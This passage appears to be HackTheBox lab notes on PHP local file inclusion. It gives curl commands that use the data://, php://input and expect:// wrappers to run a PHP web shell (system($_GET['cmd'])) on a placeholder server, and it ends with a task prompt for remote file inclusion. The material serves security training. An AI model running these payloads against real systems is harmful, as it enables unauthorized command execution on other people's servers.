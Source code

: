 
- data:// (GET)

```
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
```

![Data php warpper](/images/htb/file-inclusion/php-wrappers-data.png)
- php://input (POST)

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

![Input php warpper](/images/htb/file-inclusion/php-wrappers-input.png)
- expect:// (GET)

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)

> Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /
